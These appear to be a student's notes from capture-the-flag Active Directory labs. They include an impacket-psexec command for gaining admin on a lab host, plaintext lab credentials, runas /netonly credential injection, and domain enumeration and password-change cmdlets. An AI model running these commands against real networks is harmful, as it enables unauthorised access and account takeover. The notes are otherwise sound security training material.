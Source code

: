 Get admin access to machine:
impacket-psexec active.htb/Administrator@10.10.10.100



=================================================================================

EAD

Alt+f2 > nm-connection-editor > IP Setting == DNS conf
sudo systemctl restart NetworkManager
cat /etc/resolv.conf


http://distributor.za.tryhackme.com/creds
kenneth.davies : Password1 > newPassword1
Username: kimberley.smith Password: Password!
 jump host

Remmina ? You can use Remmina or any other similar Remote Desktop client to connect to this host for RDP ### sudo apt install remmina
ssh za.tryhackme.com\\<AD_Username>@thmjmp1.za.tryhackme.com
ssh za.tryhackme.com\\kimberley.smith@thmjmp1.za.tryhackme.com


What native Windows binary allows us to inject credentials legitimately into memory?
runas.exe /netonly /user:<domain>\<username> cmd.exe
runas.exe /netonly /user:za.tryhackme.com\kimberley.smith cmd.exe


SYSVOL = store GPOs and accessible by all AD users
dir \\za.tryhackme.com\SYSVOL\

Kerberos (FQDM, default) vs NTLM (IP) 

net user /domain == list all domain users |cmd|
net user zoe.marshall /domain == list the info about single user
net group /domain == all
net group “Domain Users” /domain == single
net accounts /domain == password policy


powershell == “”
Get-ADUser -Identity gordon.stevens -Server za.tryhackme.com -Properties * == everything in properties of the user
Get-ADUser -Filter 'Name -like "*stevens"' -Server za.tryhackme.com | Format-Table
Get-ADGroup -Identity Administrators -Server za.tryhackme.com
Get-ADGroupMember -Identity Administrators -Server za.tryhackme.com

$ChangeDate = New-Object DateTime(2022, 02, 28, 12, 00, 00) == create the $ChangeDate variable
Get-ADObject == more generic search for any AD objects 
Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server za.tryhackme.com ==  if we are looking for all AD objects that were changed after a specific date
Get-ADObject -Filter 'badPwdCount -gt 0' -Server za.tryhackme.com == show me the accounts that the badPwdCount is greater than 0 | password spraying
Get-ADDomain -Server za.tryhackme.com
Set-ADAccountPassword -Identity gordon.stevens -Server za.tryhackme.com -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force) ==  force changing the password of our AD user by using the Set-ADAccountPassword cmdlet |  AD-RSAT cmdlets is that some even allow you to create new or alter existing AD objects
